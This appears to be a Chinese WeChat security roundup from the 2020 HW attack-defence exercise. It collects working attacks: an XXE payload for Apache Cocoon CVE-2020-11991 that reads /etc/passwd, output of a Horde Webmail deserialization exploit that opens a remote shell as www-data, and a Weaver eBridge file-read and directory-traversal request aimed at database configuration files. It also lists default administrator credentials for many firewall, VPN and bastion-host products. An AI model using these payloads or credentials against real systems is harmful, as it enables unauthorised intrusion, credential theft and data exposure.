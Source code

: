 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/Y\_2\_e7HIWH3z5jhMsK7pZA)

“今天怎么都没动静, 攻击队是不是没吃饭呀。”

“攻击队被扣分成负淘汰了吧。”

不会吧, 不会吧

你们该不会就是攻击队今天说的那个

被拿下威胁告警平台把规则都删了的厂商吧

0、Apache Cocoon XML 注入 \[CVE-2020-11991\]  

来源: http://mail-archives.apache.org/mod\_mbox/cocoon-users/202009.mbox/author

程序使用了 StreamGenerator 这个方法时, 解析从外部请求的 xml 数据包未做相关的限制, 恶意用户就可以构造任意的 xml 表达式, 使服务器解析达到 XML 注入的安全问题。

1、漏洞利用条件有限必须是 apacheCocoon 且使用了 StreamGenerator, 也就是说只要传输的数据被解析就可以实现了。

2、为了大饱眼福老大哥们, 小编自己写了整了一个环境。

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace \[<!ENTITY ent SYSTEM "file:///etc/passwd"> \]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>

```

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SSJOGRbwFbueTWTmOcwYNpEk7wqbzZojeY7vWO5rZ5l1lbaNNo9WdK7ryajC7gcXDlMnKdFlD0pg/640?wx_fmt=png)

1、Horde Groupware Webmail Edition 远程命令执行

来源: https://srcincite.io/pocs/zdi-20-1051.py.txt

saturn:~$./poc.py 172.16.175.148/horde/ hordeuser:pass123 172.16.175.145

(+) targeting http://172.16.175.145/horde/

(+) obtained session iefankvohbl8og0mtaadm3efb6

(+) inserted our php object

(+) triggering deserialization...

(+) starting handler on port 1337

(+) connection from 172.16.175.145

(+) pop thy shell!

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

pwd

/var/www/horde/services

2、泛微云桥任意文件读取升级玩法。

来源: 安识科技 A-Team

昨天安全问题报告发出来似乎并没有玩转它, 中午又收到安识科技 A-Team 投稿, 想到一个新的思路，能够在漏洞利用过程中找到更多有用的信息。  

1、简单说说昨天泛微云桥的报告, 输入文件路径 -> 读取文件内容, 我们读了一下代码后发现这还能读取文件目录。

2、参数不填写绝对路径写进文本内容就是当前的目录, 产生了一个新的漏洞 “目录遍历”

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D:/&fileExt=txt

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SSJOGRbwFbueTWTmOcwYNpiboItvQI3dQ56siaxTNLicBDh8AuAhnp5wVMYfM3D92IiaYPdpoerYGb2g/640?wx_fmt=png)

3、目录遍历 + 文件读取, 我们能做的事情就很多了, 比如读取管理员在桌面留下的密码文件、数据库配置文件、nginx 代理配置、访问日志、D 盘迅雷下载。

d://ebridge//tomcat//webapps//ROOT//WEB-INF//classes//init.properties  

d:/OA/tomcat8/webapps/OAMS/WEB-INF/classes/dbconfig.properties 泛微 OA 数据库

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SSJOGRbwFbueTWTmOcwYNpRwROibBRiawD1PPxah8KfzahTdia2ertJZcLibibVbxzvWXSvwUaZnFSByA/640?wx_fmt=png)

安全设备弱密码排查列表

来源: 热心网友提供

其实这些设备本身是没有弱密码的, 用户安全意识不足使用了不安全的密码。![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SSJOGRbwFbueTWTmOcwYNp7diczXmkTicFT7ptrxSdbwWhhqkiaofAEwTuES4B6wRTfRsbHluxRBOLA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SSJOGRbwFbueTWTmOcwYNppib8Jmkk8z812YBcH6D5XHevq2vFm9rQ69EoAn1Jice62BHwobTTtheg/640?wx_fmt=png)

天融信防火墙 用户名: superman 密码: talent

天融信防火墙 用户名: superman 密码: talent!23 

联想网御防火墙 用户名: admin 密码: leadsec@7766、administrator、bane@7766

深信服防火墙 用户名：admin 密码：admin

启明星辰 用户名：admin 密码：bane@7766 用户名：admin 密码：admin@123

juniper 用户名: netscreen 密码: netscreen

Cisco 用户名: admin 密码: cisco

Huawei 用户名: admin 密码: Admin@123 

H3C 用户名: admin 密码: admin

绿盟 IPS 用户名: weboper 密码: weboper

网神防火墙 GE1 用户名：admin 密码：firewall

深信服 VPN：51111 端口   密码: delanrecover

华为 VPN：账号：root  密码：mduadmin

华为防火墙：admin   密码: Admin@123    

EudemonJuniper 防火墙：netscreen    netscreen

迪普 192.168.0.1 默认的用户名和密码（admin/admin\_default)

山石 192.168.1.1 默认的管理账号为 hillstone，密码为 hillstone

安恒的明御防火墙 admin/adminadmin

某堡垒机 shterm/shterm

天融信的 vpn test/123456

回顾一下 HW 2020/09/13:

一个浪头尚未平复，另一个浪头又掀起了。

关于蜜罐安全问题, 在没有官方公告证实之前都把这个话题收收吧。

昨天文章说到了蜜罐内网环境隔离, 有小伙伴在公众号留言处理的够及时。

打没打进去我不知道, 反正看到蜜罐被打了一晚上。

蓝队小哥: 攻击队呢 没吃饭？没有看到严重告警攻击队就是没有劲。

攻击队: 下一个就轮到你了。

素材均来自网络

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7SSJOGRbwFbueTWTmOcwYNpIWdrjW4rBU9eh4fHWEpxvvQxaAPeoNVa0zyCzicDpyJELibkcz5Z7rpQ/640?wx_fmt=png)
